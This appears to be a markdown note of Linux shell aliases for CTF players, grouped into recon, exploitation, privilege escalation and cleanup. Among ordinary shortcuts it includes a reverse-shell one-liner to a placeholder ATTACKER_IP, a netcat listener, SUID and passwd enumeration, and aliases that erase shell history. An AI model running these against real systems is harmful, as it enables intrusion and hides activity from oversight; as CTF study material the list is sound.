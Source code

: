 ```yaml
---
tags:
  - "#github"
  - "#type/template"
  - "#markdown"
  - "#notes"
  - "#network-security"
  - "#linux-hardware"
  - "#ctf"
  - "#kali-linux"
  - "#shell-aliases"
  - "#programming"
  - "#python"
  - "#learning"
  - "#shell-scripting"
description:
author:
created: Sunday, June 29th 2025, 12:31:31 am
source:
title: 🧠 CTF Linux Shell Aliases
date modified: Sunday, June 29th 2025, 12:43:38 am
---
```


Here’s a comprehensive list of **Linux shell aliases** tailored for CTF (Capture The Flag) players, especially those working in **Kali Linux** or **Parrot OS** environments. These aliases are meant to **speed up reconnaissance, enumeration, exploitation, privilege escalation, and cleanup** tasks.

---

# CTF Linux Shell Aliases

You can place these in your `.bashrc`, `.zshrc`, or a dedicated file like `~/.ctf_aliases` and source it:

```bash
source ~/.ctf_aliases
```

---

## 🔎 Recon & Enumeration

```bash
alias ports='netstat -tuln | grep LISTEN'
alias ipinfo='ip a && ip r'
alias myip='curl -s ifconfig.me'
alias whatweb='whatweb -v'
alias nmapf='nmap -sC -sV -T4 -oN nmap_full'
alias nmapq='nmap -sS -T4 -p- --min-rate=1000'
alias nmapudp='nmap -sU -T4 -p- --min-rate=1000'
alias gobusterd='gobuster dir -u http://TARGET -w /usr/share/wordlists/dirb/common.txt'
alias gobusters='gobuster dns -d DOMAIN -w /usr/share/wordlists/dns/namelist.txt'
alias ffufd='ffuf -u http://TARGET/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200'
alias waf='wafw00f http://TARGET'
alias header='curl -I http://TARGET'
```

---

## 📁 File Operations

```bash
alias l='ls -lh --color=auto'
alias la='ls -lah --color=auto'
alias ..='cd ..'
alias ...='cd ../..'
alias extract='dtrx'
alias getflag='find / -name flag\* 2>/dev/null'
alias getperm='find / -perm -4000 2>/dev/null'
```

---

## 🧱 Web & HTTP

```bash
alias serve='python3 -m http.server 8000'
alias phpserve='php -S 0.0.0.0:8000'
alias httplog='sudo tcpdump -A -i any port 80 or port 443'
alias burp='java -jar ~/tools/burpsuite.jar'
alias curlpost='curl -X POST -d'
alias ua='curl -A "Mozilla/5.0"'
```

---

## 🧰 Exploitation & Scripting

```bash
alias pwncat='rlwrap nc -lvnp'
alias revip='ip a | grep -E "inet\s"'
alias revsh='bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
alias shellz='python3 -c "import pty; pty.spawn(\'/bin/bash\')"'
alias upgrade='python3 -c "import pty; pty.spawn(\'/bin/bash\'); import os; os.system(\'export TERM=xterm\')"'
alias suidbin='find / -perm -4000 -type f 2>/dev/null'
alias linpeas='./linpeas.sh | tee linpeas.log'
```

---

## 📈 Privilege Escalation

```bash
alias checkperm='find / -type f \( -perm -4000 -o -perm -2000 \) 2>/dev/null'
alias pshell='python3 -c "import pty;pty.spawn(\'/bin/bash\')"'
alias suidlist='find / -type f -perm -04000 -ls 2>/dev/null'
alias gtfo='xdg-open https://gtfobins.github.io'
alias sudoers='sudo -l'
alias chkcron='ls -la /etc/cron*'
alias chkpasswd='cat /etc/passwd | grep sh$'
```

---

## 🛜 Network Utilities

```bash
alias myports='ss -tulwn'
alias sniff='sudo tcpdump -i any -nn'
alias scanlive='for ip in $(seq 1 254); do ping -c1 192.168.1.$ip | grep "64 bytes"; done'
alias dnslookup='dig +short'
alias whoisall='whois $(whoami)@$(hostname)'
```

---

## 🔧 Automation & Tools

```bash
alias autorev='searchsploit $(file target | cut -d ":" -f2)'
alias httpx='cat urls.txt | httpx -title -status -tech-detect -favicon'
alias amassenum='amass enum -passive -d DOMAIN'
alias subfinder='subfinder -d DOMAIN -silent'
```

---

## 🧼 Cleanup

```bash
alias cleanup='history -c && history -w && rm -f ~/.bash_history'
alias killpy='pkill -f python3'
alias clearlogs='> ~/.bash_history && history -c && unset HISTFILE'
```

---

## 🧪 Dev & Script Shortcuts

```bash
alias py='python3'
alias ipy='ipython'
alias e='nano'
alias p='ping'
alias c='clear'
alias gs='git status'
alias gd='git diff'
```

---

## 📂 Custom CTF Folder Management

```bash
alias ctftemp='mkdir -p ~/ctf && cd ~/ctf'
alias bandit='ssh bandit0@bandit.labs.overthewire.org -p 2220'
```

---

## 📜 Load These Aliases

To make these aliases persistent:

### 1. Save to `.ctf_aliases`

```bash
nano ~/.ctf_aliases
```

Paste the list you want. Then add this line to your `.bashrc` or `.zshrc`:

```bash
[ -f ~/.ctf_aliases ] && source ~/.ctf_aliases
```

### 2. Reload Shell

```bash
source ~/.bashrc
# or
source ~/.zshrc
```

---

## 🔍 References & Further Learning

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
    
- [GTFOBins](https://gtfobins.github.io/)
    
- [HackTricks](https://book.hacktricks.xyz/)
    
- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
    
- [awesome-ctf](https://github.com/apsdehal/awesome-ctf)
    
- [exploit-database](https://www.exploit-db.com/)
    
- [revshells.com](https://www.revshells.com/) (great reverse shell generator)

---
